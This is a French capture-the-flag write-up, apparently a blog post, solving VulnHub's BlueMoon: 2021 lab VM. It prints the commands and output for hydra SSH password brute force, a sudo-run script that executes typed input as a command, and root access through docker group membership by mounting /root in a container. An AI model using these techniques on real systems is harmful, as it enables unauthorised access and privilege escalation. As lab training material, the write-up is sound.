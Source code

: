 ```yaml
---
title: "Solution du CTF BlueMoon: 2021 de VulnHub"
date: 2022-11-04 13:33:00
tags: [CTF, VulnHub]
---
```


[BlueMoon: 2021](https://www.vulnhub.com/entry/bluemoon-2021,679/) est un CTF proposé sur VulnHub et créé par un certain *Kirthik*. La difficulté est notée comme facile sans plus de description. Il faut juste obtenir les droits root.

Un scan des ports de la VM (`sudo nmap -T5 -p- -sCV 192.168.56.40`) révèle trois services assez classiques. On note la présence d'un FTP qui ne semble pas ouvert aux connexions anonymes et effectivement un essai manuel retourne une erreur `530 Permission denied.`

Je suis donc passé à la phase d'énumération. Sur le site web on trouve une page de bienvenue avec deux images (une dans la page, l'autre est le favicon), rien de plus.

A l'aide de feroxbuster et des wordlists [raft](https://github.com/Averroes/raft/tree/master/data/wordlists) que j'utilise habituellement (efficaces et suffisemment courtes) j'ai tenté de trouver des fichiers et dossiers cachés en vain.

J'ai ensuite tenté de bruteforcer un éventuel compte FTP à l'aide d'hydra, toujours sans résultats.

J'ai analysé les images du site avec un éditeur hexadécimal à l'affut d'un quelconque indice.

Finalement j'ai refait une énumération web avec la wordlist plus grosse de [DirBuster](https://github.com/igorhvr/zaproxy/blob/master/src/dirbuster/directory-list-2.3-big.txt) et je suis tombé sur le fichier *hidden_text* contenant le message suivant :

> Maintanance!
> Sorry For Delay. We Will Recover Soon.
> 
> Thank You ...

La dernière ligne est un lien HTML pointant vers une image de QR code.

J'ai eu recours au site https://qrscanneronline.com/ qui a décodé l'image vers le script suivant:

```bash
#!/bin/bash

HOST=ip
USER=userftp
PASSWORD=ftpp@ssword

ftp -inv $HOST user $USER $PASSWORD
bye
EOF
```

Quand on se connecte au FTP on arrive immédiatement dans le dossier /home/userftp/files qui contient les fichiers suivants :

```
-rw-r--r--    1 0        0             147 Mar 08  2021 information.txt
-rw-r--r--    1 0        0             363 Mar 08  2021 p_lists.txt
```

Je remarque toutefois qu'il est possible de remonter l'arborescence pour aller jusqu'à la racine. A noter qu'il n'est pas possible de déposer une clé SSH dans le dossier de *userftp* ou de mettre un script php sous */var/www*.

On peut en revanche aller chercher le premier flag de l'utilisateur robin car le fichier est world readable mais on verra plus tard.

Le premier fichier contient le texte suivant :

> Hello robin ...!  
>       
>    I'm Already Told You About Your Password Weekness. I will give a Password list. you May Choose Anyone of The Password.

Le second est une liste de 32 mots de passe où des lettres ont été remplacées par des chiffres (aka leetspeak).

Une tentative de bruteforce sur le FTP échoue mais ça passe avec le SSH :

```shellsession
$ ./hydra -l robin -P /tmp/p_lists.txt ssh://192.168.56.40
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
[DATA] attacking ssh://192.168.56.40:22/
[22][ssh] host: 192.168.56.40   login: robin   password: k4rv3ndh4nh4ck3r
1 of 1 target successfully completed, 1 valid password found
```

On peut alors obtenir le flag `Fl4g{u5er1r34ch3d5ucc355fully}`

Premier réflexe une fois connecté, voir si l'utilisateur peut exécuter une commande via sudo :

```shellsession
robin@BlueMoon:~$ sudo -l
Matching Defaults entries for robin on bluemoon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh
```

Le script en question n'est pas modifiable :

```
-r-xr--r-x 1 robin robin 235 Mar  8  2021 /home/robin/project/feedback.sh
```

Toutefois vu qu'on est le propriétaire on doit pouvoir changer les permissions.

On aura cependant pas à modifier le fichier puisque le script prend un nom de commande en entrée puis l'exécute :

```bash
#!/bin/bash

clear
echo -e "Script For FeedBack\n"

read -p "Enter Your Name : " name
echo ""
read -p "Enter You FeedBack About This Target Machine : " feedback
echo ""
$feedback 2>/dev/null

echo -e "\nThanks For Your FeedBack...!\n"
```

Exemple à l'exécution :

```
Script For FeedBack

Enter Your Name : toto

Enter You FeedBack About This Target Machine : id

uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)

Thanks For Your FeedBack...!
```

On saisissant `bash` comme feedback on obtient un shell peu agréable car l'output est envoyé sur /dev/null mais c'est suffisant pour déposer notre clé SSH dans le *.ssh/authorized_keys* et obtenir ensuite un vrai shell.

On a alors accès au second flag : *Fl4g{Y0ur34ch3du53r25uc355ful1y}*

On ne peux pas utiliser sudo car on ne dispose pas du mot de passe de *jerry* mais je note que l'utilisateur fait partie du groupe docker et qu'une image est présente sur le système :

```shellsession
jerry@BlueMoon:~$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
jerry@BlueMoon:~$ docker images -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              28f6e2705743        20 months ago       5.61MB
```

Il suffit alors de lancer cette image en montant le répertoire de root à un emplacement spécifique dans le container. On aura alors accès à son contenu :

```shellsession
jerry@BlueMoon:~$ docker run -it -v /root:/real_root alpine
/ # cd real_root
/real_root # ls
root.txt
/real_root # cat root.txt

==> Congratulations <==

You Reached Root...!

Root-Flag 

     Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}

Created By 

        Kirthik - Karvendhan


instagram = ____kirthik____



!......Bye See You Again......!
```
